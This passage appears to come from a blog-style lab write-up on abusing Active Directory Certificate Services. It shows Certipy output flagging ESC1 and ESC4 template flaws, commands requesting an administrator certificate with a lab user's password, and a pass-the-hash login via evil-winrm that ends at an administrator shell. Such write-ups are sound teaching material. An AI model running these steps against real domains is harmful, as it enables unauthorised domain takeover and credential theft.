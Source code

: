```json
      Object Control Permissions
        Owner                           : NARA-SECURITY.COM\Administrator
        Full Control Principals         : NARA-SECURITY.COM\Enrollment
        Write Owner Principals          : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
        Write Dacl Principals           : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
        Write Property Principals       : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
    [!] Vulnerabilities
      ESC1                              : 'NARA-SECURITY.COM\\Domain Users' and 'NARA-SECURITY.COM\\Enrollment' can enroll, enrollee supplies subject and template allows client authentication
      ESC4                              : 'NARA-SECURITY.COM\\Enrollment' has dangerous permissions

```

- However trying to request a certificate file `.pfx` i keep getting this error, although the goal is to keep trying till it works, but after numerous attempt this didn't work for me. I mean i just made this blog so you can understand how this works.

```bash
❯ certipy req -username JODIE.SUMMERS -password hHO_S9gff7ehXw -target nara-security.com -ca NARA-CA -template NaraUser -upn administrator@nara-security.com -dc-ip 192.168.220.30 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'nara-security.com' at '192.168.220.30'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:192.168.220.30[\pipe\cert]
[+] Connected to endpoint: ncacn_np:192.168.220.30[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x80092013 - CRYPT_E_REVOCATION_OFFLINE - The revocation function was unable to check revocation because the revocation server was offline.
[*] Request ID is 25
Would you like to save the private key? (y/N) 
[-] Failed to request certificate
```

- If you want you can check this video of a friend exploiting the certificate template on a live stream by [Ye Zeiya Shein](https://www.youtube.com/watch?v=sQgsRfmMus8)

```bash
certipy auth -pfx administrator.pfx -domain nara-security.com -username administrator -dc-ip 192.168.220.30

# Gives administrator hash
```

- You can then pass-the-hash using the `evil-winrm` utility in kali as the user administrator

```bash
❯ evil-winrm -i 192.168.220.30 -u administrator -H d35c4ae45bdd10a4e28ff529a2155745
                                        
--SNIP--
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


